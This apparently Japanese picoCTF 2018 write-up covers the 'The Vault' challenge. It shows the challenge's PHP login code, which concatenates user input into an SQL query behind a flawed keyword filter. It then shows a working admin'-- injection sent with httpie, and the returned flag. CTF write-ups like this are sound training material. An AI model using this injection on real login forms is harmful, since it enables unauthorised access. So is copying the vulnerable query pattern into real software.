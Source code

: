 # The Vault

## Solve
```
There is a website running at http://2018shell.picoctf.com:49030 (link). 
Try to see if you can login!
```

## Hint
`no`

<br>

## Solution

![1](https://user-images.githubusercontent.com/47602064/83613609-fcb04080-a5be-11ea-8c54-bc157fa5d421.png)

問題に移動するとloginページとphpのソースコード先が表示されました。

```php
<?php
  ini_set('error_reporting', E_ALL);
  ini_set('display_errors', 'On');

  include "config.php";
  $con = new SQLite3($database_file);

  $username = $_POST["username"];
  $password = $_POST["password"];
  $debug = $_POST["debug"];
  $query = "SELECT 1 FROM users WHERE name='$username' AND password='$password'";

  if (intval($debug)) {
    echo "<pre>";
    echo "username: ", htmlspecialchars($username), "\n";
    echo "password: ", htmlspecialchars($password), "\n";
    echo "SQL query: ", htmlspecialchars($query), "\n";
    echo "</pre>";
  }

  //validation check
  $pattern ="/.*['\"].*OR.*/i";
  $user_match = preg_match($pattern, $username);
  $password_match = preg_match($pattern, $username);
  if($user_match + $password_match > 0)  {
    echo "<h1>SQLi detected.</h1>";
  }
  else {
    $result = $con->query($query);
    $row = $result->fetchArray();
    
    if ($row) {
      echo "<h1>Logged in!</h1>";
      echo "<p>Your flag is: $FLAG</p>";
    } else {
      echo "<h1>Login failed.</h1>";
    }
  }
  
?>
```

<br>

以下の部分でSQLiが行えると思われます。

```php
 $query = "SELECT 1 FROM users WHERE name='$username' AND password='$password'";
```

なので単純に`admin'--`という感じで送ってみます。

`--`にはそれ以降を無効にする、という機能があります。

```http
$ http -f POST http://2018shell.picoctf.com:49030/login.php "username=admin'--"
HTTP/1.1 200 OK
Content-type: text/html; charset=UTF-8

<br />
<b>Notice</b>:  Undefined index: password in <b>/problems/the-vault_0_a4d9fbaa1c6198d4d05f74760d9ac93e/webroot/login.php</b> on line <b>9</b><br />
<br />
<b>Notice</b>:  Undefined index: debug in <b>/problems/the-vault_0_a4d9fbaa1c6198d4d05f74760d9ac93e/webroot/login.php</b> on line <b>10</b><br />
<h1>Logged in!</h1><p>Your flag is: picoCTF{w3lc0m3_t0_th3_vau1t_c4738171}</p>
```

するとloginが出来てflagが表示されました。

<br><br>

## FLAG: picoCTF{w3lc0m3_t0_th3_vau1t_c4738171}
